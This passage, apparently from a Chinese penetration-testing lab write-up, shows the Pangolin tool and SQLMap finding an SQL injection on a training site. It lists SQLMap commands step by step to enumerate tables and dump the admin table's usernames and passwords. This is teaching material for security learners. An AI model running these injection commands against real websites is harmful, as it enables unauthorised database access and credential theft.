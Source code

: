 打开工具，在 **URL** 处填入注入点 `http://www.test.ichunqiu/shownews.asp?id=1`（注意：该工具不提供注入点扫描，只判断输入参数是否能作为注入点），点击 **开始** 箭头后，得到以下结果，说明注入点有效：

![pangolin-info](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-i-am-simple-dont-bully-me/pangolin-info.png)

切换到 **Datas** 选项卡，点击 **Tables** 后得到 4 张表，接着选中 `admin` 表（注意不是打钩），点击 **Columns** 后得到 4 个列名，此时才在 `admin` 前打钩，选中所有列，点击 **Datas** 后即可获得管理员账号密码。可见，穿山甲工具的使用流程与明小子非常类似。

![pangolin-result](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-i-am-simple-dont-bully-me/pangolin-result.png)

### SQLMap

[**SQLMap**](http://sqlmap.org/) 是一款专注于自动化 SQL 注入检测的开源渗透工具，用 Python 脚本语言编写，能在装有 Python 2.6.x 与 Python 2.7.x 的系统上跨平台运行，支持对数十种常见数据库的检测，被誉为 SQL 注入领域的一大渗透神器。

由于 SQLMap 只支持命令行界面，其易用性不如前两者，但丝毫不影响其渗透威力，反而还拥有更高的检测效率与更广的检测范围。SQLMap 作为渗透工程师常用且必备的工具，应当重点掌握。下面将列出渗透过程中常用的命令及用法，建议同时参考[官方文档](https://github.com/sqlmapproject/sqlmap/wiki)。

（1）`python sqlmap.py -h`：查询帮助手册。
（2）`python sqlmap.py -u <URL>`：检测该 URL 是否存在注入（末尾记得写上查询参数）。
（3）`python sqlmap.py -u <URL> --dbs`：查询所有数据库名。
（4）`python sqlmap.py -u <URL> --current-db`：查询当前数据库名。
（5）`python sqlmap.py -u <URL> -D <database> --tables`：查询某数据库中的所有表名。
（6）`python sqlmap.py -u <URL> -D <database> -T <table> --columns`：查询某数据表中的所有列名。
（7）`python sqlmap.py -u <URL> -D <database> -T <table> -C <column> --dump`：查询某列中的所有数据。

以上是通过 GET 方式来检测注入点，并进行 SQL 注入读取数据库中数据的常规套路。**注意一个特例：由于 Microsoft Access 数据库结构特殊，注入时不必通过（3）或（4）来查询数据库名，直接从（5）开始查询表名即可，`-D` 选项也可省去。**

> 小贴士：为了避免在命令行界面输入中文进入【SQLMap】目录，因此使用前建议将【SQLMap】文件夹拷贝到 C 盘下。

确保了命令行路径在【SQLMap】目录下后，根据（2）输入命令 `python sqlmap.py -u http://www.test.ichunqiu/shownews.asp?id=1` ，若询问「已确认 `id` 参数可注入，还需检测其他参数？」填 `N`，结果显示此为**基于布尔的盲注（boolean-based blind）**，并且返回了一些服务器相关信息，如：服务器操作系统为 **Windows 2003 或 Windows XP**，Web 应用程序采用了 **APS.NET、Microsoft IIS 6.0、ASP** 等建站技术，后端数据库数理系统为 **Microsoft Access**。以上对服务器相关信息的收集有助于后续更高效精准的渗透。

![sqlmap-info](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-i-am-simple-dont-bully-me/sqlmap-info.png)

知道了后端数据库是 Microsoft Access 后，可以跳过（3）或（4）直接进行（5），输入命令 `python sqlmap.py -u http://www.test.ichunqiu/shownews.asp?id=1 --tables`，若询问「需要检测常用表名是否存在？」填 `Y`，询问「需要的线程数量？」填最大值 `10`。检测将近一半时，按 `Ctrl + C` 手动终止扫描，得到了包含 `admin` 表在内的 6 张表。**注意：由于 SQLMap 扫描所用的字典范围更广，因此比起前两者能发现更多的数据表。**

> 小贴士：由于扫描花时较长，当看到 `admin` 表出现时，可按 `Ctrl + C` 手动停止扫描。

![sqlmap-tables](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-i-am-simple-dont-bully-me/sqlmap-tables.png)

继续执行（6）中的命令，输入 `python sqlmap.py -u http://www.test.ichunqiu/shownews.asp?id=1 -T admin --columns`，若询问「需要检测常用列名是否存在？」填 `Y`，询问「需要的线程数量？」填最大值 `10`。本次扫描不手动终止，等待其全部扫描完毕，得到了 `username` 与 `password` 等 6 个字段。

![sqlmap-columns](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-i-am-simple-dont-bully-me/sqlmap-columns.png)

最后执行（7）中的命令，输入 `python sqlmap.py -u http://www.test.ichunqiu/shownews.asp?id=1 -T admin -C username,password --dump`，等待其枚举完毕，若询问「需要临时保存结果的哈希值？」填 `N`，询问「需要用字典攻击来破解结果？」填 `n`，随即可看到管理员的账号密码等数据。
